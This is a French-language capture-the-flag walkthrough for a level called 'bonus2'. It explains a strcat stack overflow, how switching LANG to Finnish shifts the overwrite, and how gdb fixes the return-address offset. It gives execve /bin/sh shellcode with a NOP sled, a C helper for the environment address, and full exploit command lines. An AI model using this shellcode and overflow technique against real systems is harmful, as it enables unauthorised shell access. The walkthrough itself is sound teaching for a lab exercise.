


# Bonus2 — Walkthrough

> **En résumé :** `main` range `argv[1]` (40 o.) et `argv[2]` (32 o.) dans deux
> buffers collés, les fusionne en un `name` de 76 octets, puis appelle
> `greetuser(name)`. `greetuser` met un préfixe de salutation (selon `$LANG`)
> dans un buffer, puis y `strcat` le `name` **sans borne** → débordement. En
> forçant `LANG=fi`, le préfixe finnois (plus long) décale la cible pour que
> l'**adresse de retour** tombe dans les 32 octets contrôlés de `argv[2]`. On y
> place l'adresse d'un shellcode (variable d'env, NX désactivé) → shell `bonus3`.

>  **Protections vérifiées :** `readelf -l ./bonus2 | grep GNU_STACK` → `RWE`
> (pile exécutable, **NX désactivé**). On peut donc exécuter un shellcode sur la
> pile / en variable d'environnement.

## Le process de l'exploit



## Trouver l'offset exact (méthode gdb — fiable)

Le calcul théorique sur la pile donne une **estimation** (~80 octets du début du
buffer jusqu'à la @retour), mais le plus sûr est de le **mesurer dans gdb** avec
un motif où chaque groupe de 4 est unique :

```bash
gdb -q ./bonus2
(gdb) run $(python -c "print 'A'*40") $(python -c "print 'BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII'")
# crash :
(gdb) info registers eip
# → eip = 0x47474646
```

`eip = 0x47474646` → octets mémoire (little-endian) `46 46 47 47` = **`FFGG`**.
Dans le motif `...FFFFGGGG...`, `FFGG` tombe aux positions **18 à 21** :

```
position argv[2] : ...16 17 18 19 20 21 22 23...
motif            : ... F  F  F  F  G  G  G  G ...
                          └────┬────┘
                       FFGG = argv[2][18..21]  ← la @retour
```

➡️ **L'adresse de retour est à `argv[2][18]`** (et non 22 : l'estimation
théorique était décalée de 4 octets, on se fie toujours à gdb).

## Pourquoi LANG=fi

`greeting` se remplit de gauche à droite : **tout est collé bout à bout** depuis
le début du buffer.

```
[ préfixe ][ argv[1] = 40 o. ][ argv[2] = 32 o. ]
0          ↑                  ↑
        fin préfixe       début d'argv[2]
```

La @retour à écraser est à une **position FIXE** : l'offset **76** depuis le
début du buffer (c'est la pile, rien ne la bouge). On calcule l'indice visé dans
`argv[2]` en **2 étapes simples**.

**Étape 1 — où commence `argv[2]` ?**
Il est posé *après* le préfixe et *après* les 40 octets d'`argv[1]` :

```
début d'argv[2] = longueur_préfixe + 40
  anglais : 6  + 40 = 46
  finnois : 18 + 40 = 58
```

**Étape 2 — combien de pas jusqu'à la cible (76) ?**
On part du début d'`argv[2]` et on compte les pas jusqu'à 76 :

```
index dans argv[2] = 76 − (début d'argv[2])
  anglais : 76 − 46 = 30
  finnois : 76 − 58 = 18
```

C'est juste « **cible − départ** », comme sur une règle : si tu démarres à 46 et
veux arriver à 76, tu fais 30 pas → l'octet n°30 d'`argv[2]` tombe pile sur la
cible.

```
        position fixe de la @retour ↓ (offset 76)
        ────────────────────────────┼──────────
ANGLAIS (préfixe 6) :
[Hello ][----- argv1 40 -----][===== argv2 32 =====]
46 ──────────────────────────┘                  ↑
ruban argv2 commence à 46     →  76-46 = index 30
                                 adresse = 30,31,32,33 → 32,33 HORS ruban 

FINNOIS (préfixe 18) :
[Hyvää päivää ][----- argv1 40 -----][===== argv2 32 =====]
58 ────────────────────────────────┘          ↑
ruban argv2 commence à 58     →  76-58 = index 18
                                 adresse = 18,19,20,21 → tout DEDANS 
```

Or on ne contrôle que **32 octets** de `argv[2]` (`strncpy(buf2, argv[2], 0x20)`),
soit les indices `0..31` :

- **anglais → `argv[2][30]`** : l'adresse (4 octets) irait de 30 à **33**, mais
  32 et 33 ne sont **pas copiés** → adresse tronquée → **impossible** 
- **finnois → `argv[2][18]`** : l'adresse va de 18 à 21, **bien dans les 0..31**
  → on peut l'écrire en entier → **OK** 

**Nuance contre-intuitive :** un préfixe plus long ne pousse PAS la cible plus
loin — il fait **glisser le ruban `argv[2]` vers la droite**, donc le ruban
touche la cible (toujours à 76) **plus tôt**, avec un indice **plus petit** (18
au lieu de 30) → il rentre dans les 32. Le préfixe ne « repousse pas la cible »,
il **mange la distance avant le ruban**.



## Disposition de argv[2] (32 octets)

```
┌──────────────┬──────────────────────┬──────────────┐
│  'A' × 18    │  @shellcode (4 o.)   │  'A' × 10    │
│  octets 0-17 │  octets 18-21        │  octets 22-31│
└──────────────┴──────────────────────┴──────────────┘
                      ↑
              écrase la @retour de greetuser
```

## Construire l'exploit

```bash
# 1. langue → préfixe finnois (long)
export LANG=fi

# 2. shellcode en variable d'env, avec un NOP sled (NX off).
#    200 suffit : le sled sert juste à absorber le petit écart d'adresse entre
#    /tmp/ge2 et bonus2. (Agrandir à 1000+ seulement si l'écart dépasse la marge.)
export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

# 3. trouver l'adresse de SHELLCODE
#     nom UNIQUE (/tmp/getenv appartient déjà à bonus0 -> Permission denied)
cat > /tmp/ge2.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
int main(){ printf("%p\n", getenv("SHELLCODE")); return 0; }
EOF
gcc /tmp/ge2.c -o /tmp/ge2 && /tmp/ge2
# → ex: 0xbffffdd7  (le DÉBUT du sled ; prends TA valeur)

# 4. lancer — version AUTOMATIQUE (recommandée) :
#    - $(/tmp/ge2) récupère l'adresse du sled
#    - + 0x64 (100) vise le milieu du sled
#    - struct.pack('<I', ...) fait la conversion little-endian tout seul
#    - argv[2] = 18 (bourrage) + 4 (adresse) + 10 (bourrage) = 32 octets
#    Avantage : marche même si l'adresse change, pas de calcul à la main.
./bonus2 $(python -c "print 'A'*40") \
         $(python -c "import struct; print 'A'*18 + struct.pack('<I', $(/tmp/ge2) + 0x64) + 'A'*10")
```

> l version automatique ci-dessus relit `/tmp/ge2` à chaque lancement, donc
> elle reste juste même si l'adresse bouge. **N'écris jamais l'adresse en dur en
> copiant un exemple** : l'adresse de l'env change quand l'environnement change.

Version **manuelle** équivalente (si tu veux voir l'adresse) :

```bash
/tmp/ge2                       # ex: 0xbffffdd7
# 0xbffffdd7 + 0x64 = 0xbffffe3b  → little-endian (octets à l'envers) : \x3b\xfe\xff\xbf
./bonus2 $(python -c "print 'A'*40") $(python -c "print 'A'*18 + '\x3b\xfe\xff\xbf' + 'A'*10")
```

> Si ça crashe : l'écart `/tmp/ge2`↔`bonus2` dépasse la marge → agrandis le sled
> (`'\x90'*1000`+), ou augmente le `+ 0x64` pour viser plus loin dans le sled.
